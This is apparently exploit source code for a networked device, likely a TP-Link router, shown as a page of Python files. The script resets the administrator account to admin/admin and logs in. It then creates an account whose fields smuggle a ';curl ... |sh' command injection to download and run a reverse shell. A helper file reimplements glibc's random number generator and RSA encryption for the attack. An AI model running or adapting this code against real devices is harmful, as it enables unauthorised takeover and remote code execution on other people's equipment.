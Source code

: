 ```python
	tp.reset()
	print "Admin account reset to admin/admin"

	if shell
		tp.login("admin", "admin")
		tp.setUsbSharing()
		tp.createAccount(";curl", "%s'|sh'"%shell)

		print "Reverse shell activated"
```


`utils.py`:
```python
#!/usr/bin/env python

import math

from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP

RAND_MAX = 0x7fffffff

# from https://github.com/qbx2/python_glibc_random
def glibc_prng(seed):
	int32 = lambda x: x&0xffffffff-0x100000000 if x&0xffffffff>0x7fffffff else x&0xffffffff
	int64 = lambda x: x&0xffffffffffffffff-0x10000000000000000 if x&0xffffffffffffffff>0x7fffffffffffffff else x&0xffffffffffffffff

	r = [0] * 344
	r[0] = seed

	for i in range(1, 31):
		r[i] = int32(int64(16807 * r[i-1]) % 0x7fffffff)

		if r[i] < 0:
			r[i] = int32(r[i] + 0x7fffffff)


	for i in range(31, 34):
		r[i] = int32(r[i-31])

	for i in range(34, 344):
		r[i] = int32(r[i-31] + r[i-3])

	i = 344 - 1

	while True:
		i += 1
		r.append(int32(r[i-31] + r[i-3]))
		yield int32((r[i]&0xffffffff) >> 1)

def random(seed, l, u):
	prng = glibc_prng(seed)
	r = float(next(prng))%RAND_MAX / RAND_MAX
	return int(math.floor(r*(u-l+1))+l)


def encrypt(key, val):
	padding = (key.n.bit_length()+7)>>3
	return key.encrypt(val.ljust(padding, "\x00"),1)[0].encode("hex")

def pubKey(n, e):
	return RSA.construct((long(n,16), long(e, 16)))
```
